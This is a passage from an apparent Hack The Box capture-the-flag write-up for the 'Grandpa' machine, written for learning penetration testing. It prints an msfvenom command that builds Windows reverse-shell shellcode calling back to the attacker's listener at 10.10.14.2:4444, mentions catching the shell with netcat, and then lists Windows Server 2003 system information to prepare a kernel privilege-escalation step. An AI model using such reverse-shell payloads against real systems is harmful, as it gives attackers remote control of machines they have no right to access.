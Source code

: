 Since I'm avoiding any use of meterpreter, I opt to use the stageless windows shell payload.

```
msfvenom -p windows/shell_reverse_tcp lhost=10.10.14.2 lport=4444 -f raw -v sc -e x86/alpha_mixed > shellcode
```

The reason that I'm choosing to use the stageless payload is so I don't have to rely on `multi/handler` to capture my shells. I'm just using netcat to catch my reverse shells.

![usershell](images/usershell.png)

After running the exploit, it looks like we're on the box as `NT Authority\Network Service`, which is actually a low privileged user, despite being part of `NT Authority`. We don't Grandpa's user.txt at `c:\users\grandpa\Desktop\user.txt`, so it's onto privesc from here.

Getting Root
------------

Because this is such an old box, there's bound to be some kind of kernel exploit against server 2003.

Running `sysinfo` gives us some additional info as well

```
Host Name:                 GRANPA
OS Name:                   Microsoft(R) Windows(R) Server 2003, Standard Edition
OS Version:                5.2.3790 Service Pack 2 Build 3790
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Uniprocessor Free
Registered Owner:          HTB
Registered Organization:   HTB
Product ID:                69712-296-0024942-44782
Original Install Date:     4/12/2017, 5:07:40 PM
System Up Time:            0 Days, 11 Hours, 12 Minutes, 27 Seconds
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               X86-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: x86 Family 6 Model 63 Stepping 2 GenuineIntel ~2299 Mhz
BIOS Version:              INTEL  - 6040000
Windows Directory:         C:\WINDOWS
System Directory:          C:\WINDOWS\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (GMT+02:00) Athens, Beirut, Istanbul, Minsk
Total Physical Memory:     1,023 MB
Available Physical Memory: 788 MB
Page File: Max Size:       2,470 MB
Page File: Available:      2,319 MB
Page File: In Use:         151 MB
Page File Location(s):     C:\pagefile.sys
```